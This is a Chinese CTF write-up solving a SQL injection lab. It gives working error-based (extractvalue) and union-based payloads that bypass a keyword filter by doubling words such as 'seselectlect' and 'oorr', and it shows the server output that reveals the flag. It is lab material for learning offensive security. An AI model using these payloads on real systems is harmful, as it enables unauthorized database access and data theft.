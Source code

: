 ```sql
1' oorr extractvalue(1, concat(0x7e, (seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'), 0x7e))  #

->id,username,password
```

连接后直接查询看看，由于报错一般都有长度限制，因此用substring函数截取：

```sql
1' oorr extractvalue(1, concat(0x7e, subsubstrstr((seselectlect group_concat(passwoorrd) frfromom b4bsql),1,16), 0x7e))  #
```

这里过滤了substr（`substring` 与 `substr` 是具有相同功能的函数），先利用 `locate(substr, str)` 定位flag位置，再查找：

```sql
1' oorr extractvalue(1, concat(0x7e, locate("flag{",(seselectlect group_concat(passwoorrd) frfromom b4bsql)), 0x7e))  #

->XPATH syntax error: '~153~'

1' oorr extractvalue(1, concat(0x7e, left((seselectlect group_concat(passwoorrd) frfromom b4bsql),153，24), 0x7e))#

->XPATH syntax error: '~flag{3015460e-88df-4ebb-~'

1' oorr extractvalue(1, concat(0x7e, subssubstrtr((seselectlect group_concat(passwoorrd) frfromom b4bsql),177,24), 0x7e))  #

->XPATH syntax error: '~b356-0043a5c16392}~'
```

得到flag：flag{3015460e-88df-4ebb-b356-0043a5c16392}

* `group_concat(column_name1,column_name2)` 将多行结果合并为一行，多列结果合并为一列；列与列直接之间相连，随后不同行的的数据用 `,` 分隔，逐行进行扫描
* [SQL字符串截取](https://www.cnblogs.com/vofill/p/6806962.html)
* `left(length)` 在读取到最大长度后就不能再读取了；`right(length)` 在读取到最大长度后读取的起点会向左偏移，它先检索到字符串起点，再读取子串
* `extract('目标xml文件名', 'xml中检索的字符串')` 该函数用于查询xml文件中的特定字符串，`0x7e` 代表字符 `~` ，拼接在要获取的信息周围再拼接到路径中去就会在字符串周围产生错误，从而报错注入

### 其他打开方式

参考：[极客大挑战 2019 BabySQL](https://blog.csdn.net/qq_36618918/article/details/121691162)

（原来FUZZ就是扫描）先FUZZ测试过滤词典；然后利用 `order by num` 中num不能大于等于列数来获取字段个数（by也被过滤）：

```sql
' oorrder bbyy 4--

->Unknown column '4' in 'order clause'
```

能测试出只有三个字段，利用 `union select` 测试回显的字段：

```sql
' ununionion seselectlect 1,2,3-- 

->Hello 2！Your password is '3'
```
